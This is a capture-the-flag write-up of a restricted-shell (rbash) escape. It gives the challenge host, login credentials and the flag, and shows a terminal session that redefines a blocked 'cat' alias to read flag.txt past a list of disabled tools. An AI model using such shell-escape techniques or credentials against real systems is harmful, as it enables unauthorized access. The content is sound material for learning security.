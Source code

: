 # B@SH

Exploitation : 50 Points

## Question

ssh to pwnsauce.cyberbattle.info:8008 using the following credentials:

username: sail

password: sail1234

And get the flag.

## How I got the flag

Restricted shell. Other participants claimed that they managed to ssh with no profile (no idea how). But I managed to get in without it.

My first step was to see if I can find the flag after I ssh in. I found where the flag is with a basic `ls`, revealing `getyourtastyflaghere` directory. Another `ls getyourtastyflaghere` revealed `flag.txt`.

Tried to `cat getyourtastyflaghere/flag.txt`, thinking this was too easy, threw an error:

`-rbash: /bin/true: restricted: cannot specify \`/' in command names`

This caught me by surprise.

I tried everything else with `more, less, touch, vim, vi, nano, grep, find`, etc. All threw the same error message.

Google showed that I was in a Restricted Shell and I need to find a way to escape it. Most of the online guides/slides shows that there's always something in the restricted shell that we can use to escape out of. I tried changing whatever `env` I was in or tried to change my shell from `rbash` to `bash` but I would need a text editor to work with. `tee` didn't work either.

Then I tried `alias`. Found everything I needed. Just needed to change the `cat` alias and that's it.

```
sail@026759e61007:~$ echo "Hello World"
-rbash: /bin/true: restricted: cannot specify `/' in command names
sail@026759e61007:~$ alias
alias alert='notify-send --urgency=low -i "$([ $? = 0 ] && echo terminal || echo error)" "$(history|tail -n1|sed -e '\''s/^\s*[0-9]\+\s*//;s/[;&|]\s*alert$//'\'')"'
alias awk='/bin/true'
alias cat='/bin/cat'
alias dash='/bin/true'
alias echo='/bin/true'
alias egrep='/bin/true'
alias eval='/bin/true'
alias fgrep='/bin/true'
alias find='/bin/true'
alias grep='/bin/true'
alias head='/bin/true'
alias l='ls -CF'
alias la='ls -A'
alias less='/bin/true'
alias ll='ls -alF'
alias locate='/bin/true'
alias ls='ls --color=auto'
alias more='/bin/true'
alias printf='/bin/true'
alias python='/bin/true'
alias sed='/bin/true'
alias sftp='/bin/true'
alias sh='/bin/true'
alias tail='/bin/true'
alias tee='/bin/true'
alias vi='/bin/true'
alias vim='/bin/true'
alias wget='/bin/true'
alias whereis='/bin/true'
alias which='/bin/true'
sail@026759e61007:~$ alias cat='cat'
sail@026759e61007:~$ cat
^C
sail@026759e61007:~$ cat getyourtastyflaghere/flag.txt 
CBCTF{fun_w17h_b45h}
sail@026759e61007:~$ logout
```
